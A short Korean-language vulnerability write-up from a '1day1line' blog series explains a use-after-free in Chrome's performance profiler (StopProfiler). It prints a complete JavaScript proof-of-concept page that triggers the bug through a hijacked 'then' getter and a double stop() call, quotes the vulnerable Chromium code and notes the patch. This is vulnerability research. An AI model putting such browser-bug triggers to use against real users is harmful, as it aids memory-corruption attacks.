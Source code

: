 ```yaml
---
title: "[하루한줄] Chrome UAF in StopProfiler"
author: L0ch
tags: [Tag : L0ch, uaf, asynchronous, chrome, javascript]
categories: [1day1line]
date: 2020-12-04 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[Chrome UAF in StopProfiler](https://bugs.chromium.org/p/chromium/issues/detail?id=1119865)

## Target

Chrome (Operating System: all)

## Explain

CPU 등의 리소스 사용량을 모니터링할 수 있는 `profiler` 객체에서 비동기 처리 키워드를 사용한 UAF 취약점이 발견되었습니다. 

해당 취약점의 POC는 다음과 같습니다.

```jsx
<html>
    <body>
    </body>
    <script>
        function gc() {
            for (var i = 0; i < 0x100000; ++i) {
                var a = new String();
            }
        }
        async function main(){
            var pf = await performance.profile({ sampleInterval: 10 });
            console.log(pf);
            cnt = 0;
            Object.prototype.__defineGetter__("then", ()=>{
                if( cnt == 0){
                    cnt ++;
                    console.log("hello");
                    pf.stop();
                    gc();
                }
            })
            pf.stop();
        }
        main();
    </script>
</html>
```

```jsx
void ProfilerGroup::StopProfiler(ScriptState* script_state,
                                 Profiler* profiler,
                                 ScriptPromiseResolver* resolver) {
...

  auto* trace = ProfilerTraceBuilder::FromProfile(
      script_state, profile, profiler->SourceOrigin(), profiler->TimeOrigin());
  resolver->Resolve(trace);

  if (profile)
    profile->Delete();

  profilers_.erase(profiler);

...
```

`ProfilerGroup::StopProfiler` 함수의 resolve는 사용자 정의 함수를 호출할 수 있습니다. 

비동기 함수로 선언한 `main` 함수에서 `await` 키워드로 `performance.profile` 객체를 선언하고 `Object.prototype.__defineGetter__` 의 사용자 정의 함수와 main에서 `stop` 을 두 번 호출하게 되면  `CpuProfile` 객체가 삭제됩니다. 결과적으로 `CpuProfile` 에서 UAF 취약점을 트리거할 수 있습니다.

이는 간단하지만 높은 심각성의 UAF 취약점으로, Google은 `Profiler::stop` 에서 동기 스크립트 실행을 방지하도록 패치했습니다.

## Reference

[https://chromium-review.googlesource.com/c/chromium/src/+/2373184](https://chromium-review.googlesource.com/c/chromium/src/+/2373184)